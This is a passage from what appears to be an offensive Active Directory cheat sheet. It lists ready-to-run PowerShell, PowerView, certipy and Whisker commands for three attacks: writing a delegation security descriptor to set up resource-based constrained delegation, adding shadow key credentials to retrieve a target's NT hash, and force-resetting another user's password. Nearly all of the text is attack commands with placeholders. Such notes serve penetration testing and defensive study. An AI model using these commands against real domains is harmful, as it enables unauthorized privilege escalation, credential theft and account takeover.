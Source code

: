 ```
PS> Get-NetComputer <newComputer> -Properties objectsid | Select -Expand objectsid
```

A new ACE is then created.
This will be linked to the SID of the new computer account:

```
PS> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
PS> $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS> $SD.GetBinaryForm($SDBytes, 0)
```

Using Powerview, the new entry can be set and checked in the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the target computer:

```
Get-NetComputer <targetComputer> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

The value of the attribute can be checked afterwards.

```
Get-NetComputer <targetComputer> -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

Now we can perform a Resource Based Constrained Delegation attack (see AllowedToAct)


## AddKeyCredentialLink

Add Key Credentials to the attribute msDS-KeyCredentialLink of the target user/computer object and then perform a Kerberos Authentication as that account using PKINIT to retrieve the NT hash.

```
$> certipy shadow auto '<domain>/<user>:<password>'@<certificateAuthorityRhost> -account '<targetComputerOrUser>'
or
PS> Whisker.exe add /target:<targetAccount>
```


## ForceChangePassword
This edge indicates that the source node (user or group) can replace the password of the destination node (user, group, computer).
This can be done with native cmd commands:

```
PS> net user <targetUser> <newPassword> /<domain>
```

Alternatively, you can also use Powerview.

```
PS> $SecPassword = ConvertTo-SecureString '<attackerPassword>' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\\<attackerUser>', $SecPassword)
PS> $UserPassword = ConvertTo-SecureString '<newPassword>' -AsPlainText -Force
PS> Set-DomainUserPassword -Identity <targetUser> -AccountPassword $UserPassword -Credential $Cred
```
